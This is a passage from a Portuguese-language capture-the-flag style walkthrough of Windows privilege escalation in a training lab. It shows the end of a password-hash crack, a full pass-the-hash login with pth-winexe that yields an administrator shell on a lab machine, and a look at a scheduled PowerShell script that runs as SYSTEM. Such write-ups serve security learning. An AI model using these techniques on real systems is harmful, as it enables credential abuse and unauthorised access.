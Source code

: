```bash
1g 0:00:00:00 DONE (2023-02-21 22:03) 1.492g/s 2292p/s 2292c/s 2292C/s teacher..mexico1
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

E para concluir esse topico vamos informar qual o hash encontrado.

![hash](hash.png)

---

## **<a id="12"> •  Passwords - Passing the Hash</a>**

Nesse topico vamos utilizar a hash encontrada para fazer o login no sistema.

E para isso iremos utilizar uma ferramenta chamada `pth-winexe`:

```bash
╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/windows                                                                                         22:14:54
╰──➤ pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.244.78 cmd.exe
E_md4hash wrapper called.
HASH PASS: Substituting user supplied NTLM HASH...
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin

C:\Windows\system32>
```

E para concluir esse topico vamos clicar no botão `Completed`:


---

## **<a id="13"> • Scheduled Tasks</a>**

Vamos dar uma olhada no contéudo do script `C:\DevTools\CleanUp.ps1`:

```powershell
PS C:\PrivEsc> type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
```
